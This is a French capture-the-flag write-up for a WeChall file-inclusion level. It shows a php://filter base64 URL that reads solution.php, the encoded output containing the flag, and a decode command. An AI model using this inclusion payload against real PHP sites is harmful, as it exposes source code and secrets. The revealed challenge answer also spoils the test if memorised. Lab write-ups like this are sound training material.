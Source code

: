 # Solution du niveau 15

### Afin de trouver le flag du niveau 15, voici comment j'ai procédé:

- On commence par se rendre sur le site de <b style = 'color: #aaff22' >wechall.net</b> et on accede au challenge ***live rfi***. On y trouve un lien qui nous redirige vers la page du niveau 14.

- Comme avec les niveaux précédent, le flag doit se trouver dans un fichier `solution`.  Il faut donc parcourir ce site pour trouver ce fichier. Pour se faire on peut utiliser <i style='color: #f4a21f'>PHP filter</i>. C'est une fonctionnalité qui permet de s'assurer que les données entrantes correspondent à des critères spécifiques.

- En plus de cette fonctionnalité, on utilisera aussi <i style='color: #f4a21f'>l'encodage en base64</i>  pour contourner les filtres ou les contrôles de sécurité mis en place par le site.

- En appliquant tous ces éléments avec l'url du site, on aura quelque chose comme ceci:
>https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php

- On sera rediriger vers une page avec le long texte suivant :
> PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K

- Afin de comprendre ce que ce texte veut dire, il faut le convertir <i style='color: #f4a21f'>en encodage UTF-8</i>. Il existe plusieurs façon de s'y prendre:

    - soit à l'aide d'un site spécialisé dans ce domaine,

    - soit en utilisant la commande linux suivante: <pre>echo "<b style = 'color:cyan'>le texte en base 64 ici</b>" | base64 -d -i </pre>

- Une fois converti, on y trouvera le flag du niveau 15.

---